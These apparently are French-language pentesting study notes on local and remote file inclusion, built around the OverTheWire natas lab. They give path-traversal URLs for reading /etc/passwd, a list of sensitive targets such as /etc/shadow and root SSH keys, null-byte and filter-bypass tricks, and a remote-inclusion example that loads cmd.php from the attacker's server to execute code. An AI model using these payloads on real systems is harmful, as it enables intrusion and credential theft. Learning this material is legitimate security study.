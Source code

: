DEUX TYPES DE FILE INCLUDE :  
[https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion "https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion")  
Local File Include (LFI) :

Chercher des fichiers local (de l'hôte donc du site target). Attention c'est que par tâtonnement parce que tu dois connaitre le nom du fichier que tu cherche.

Comment savoir si un site est vulnérable de LFI ?

Souvent un truc du genre [http://natas7.natas.labs.overthewire.org/index.php?page=home](http://natas7.natas.labs.overthewire.org/index.php?page=home "http://natas7.natas.labs.overthewire.org/index.php?page=home") où index.php est le fichier qui englobe la page home (va chercher sur internet pour comprendre ca stv). c'est à partir de ce fichier qu'on peut remonter dans les dossiers. Home c'est juste la page qui est contenue dans le fichier index.php mais c'est pas la seule. on s'en fout un peu de home.

A la place de home on peut mettre /etc/passwd pour tester : [http://natas7.natas.labs.overthewire.org/index.php?page=](http://natas7.natas.labs.overthewire.org/index.php?page=home "http://natas7.natas.labs.overthewire.org/index.php?page=home")/etc/passwd.

Pour remonter dans un dossier parent on ajoute ../ avant là où on veut aller.

Exemple : [http://natas7.natas.labs.overthewire.org/index.php?page=](http://natas7.natas.labs.overthewire.org/index.php?page=home "http://natas7.natas.labs.overthewire.org/index.php?page=home")../../../../etc/fichierprout.txt

Commande PHP vulnérable :  
file_get_content

Fichier qu'on voudrais voir :

/etc/issue — contains a message or system identification to be printed before the login prompt.

/etc/profile  — controls system-wide default variables, such as Export variables,  File creation mask (umask), Terminal types, Mail messages to indicate  when new mail has arrived

/proc/version — specifies the version of the Linux kernel  
/etc/passwd — has all registered user that has access to a system  
/etc/shadow — contains information about the system’s users’ passwords  
/root/.bash_history — contains the history commands for root user

/var/log/dmessage — contains global system messages, including the messages that are logged during system startup

/var/mail/root — all emails for root user

/root/.ssh/id_rsa — Private SSH keys for a root or any known valid user on the server

/var/log/apache2/access.log — the accessed requests for Apache webserver  
C:\boot.ini — contains the boot options for computers with BIOS firmware

NULL byte :

En php, le null byte (%00) sert à indiquer la fin d'une chaine de caractère. Y'a plusieurs (anciennes) vulnérabilité possibles grace à %00.

Imaginons que dans l'url, le site nous demande quelle page aller. Sauf que dans le code, le site rajoute .php à la fin donc toute les pages qu'on passe sont forcément en php. exemple : [http://11.11.11.11/home/file?id=page1](http://11.11.11.11/home/file?id=page1 "http://11.11.11.11/home/file?id=page1"). Bah ca cherchera automatiquement une page php car c'est ajouté après.

Maintenant imaginons qu'on mette %00 après page1. (page1%00) cela enlèvera la spécification de php car on indique une fin de chaine de caractère. Donc ca cherchera n'importe quelle type de fichier. On peut donc tenter une local file inclusion en indiquant le null byte a la fin. exemple [http://11.11.11.11/home/file?id=/../../../../etc/passwd](http://11.11.11.11/home/file?id=/../../../../etc/passwd%00 "http://11.11.11.11/home/file?id=/../../../../etc/passwd%00")

Nouveau scénario :

le dev remplace les ../ par du vide. On peut tenter de mettre ....// car ca va enlever le ../ du milieu mais garder les coté.

Nouveau scénario :

le dev nous oblige à inclure un chemin spécifié. Alors on peut faire ?lang=languages/../../../../../etc/passwd (garder le languages/ pour pas que la remonté de repo se fasse voir.

Remote File Include (RFI) :

- La RFI est une vulnérabilité de sécurité où un attaquant peut forcer un serveur à inclure des fichiers distants sur le site cible.
- Cette vulnérabilité peut conduire à l'exécution de commandes à distance (RCE) si le fichier inclus est un fichier PHP malveillant.
- L'attaquant utilise généralement des paramètres d'URL ou des données fournies par l'utilisateur pour influencer le chemin du fichier inclus.

**Identification de la Vulnérabilité RFI :**

- Si vous soupçonnez qu'un site peut être vulnérable à la RFI, recherchez des endroits où l'application inclut des fichiers externes, tels que `include()`, `require()`, etc.
- Vérifiez si l'application utilise des paramètres d'URL ou des données fournies par l'utilisateur pour construire les chemins des fichiers inclus.

Scénario :

J'ai un server (python -m http.server 8000) avec un fichier cmd.php qui contient . Maintenant si on a un site cible qui a allow_url_fopen sur ON, avec un url http://server_target.com/index.php?lang=. On peut faire  http://server_target.com/index.php?lang=http://mon_addr_ip/cmd.php pour redirigé le site cible vers mon fichier .php. Le code php va donc être exécuté sur le site donc il y aura test écrit.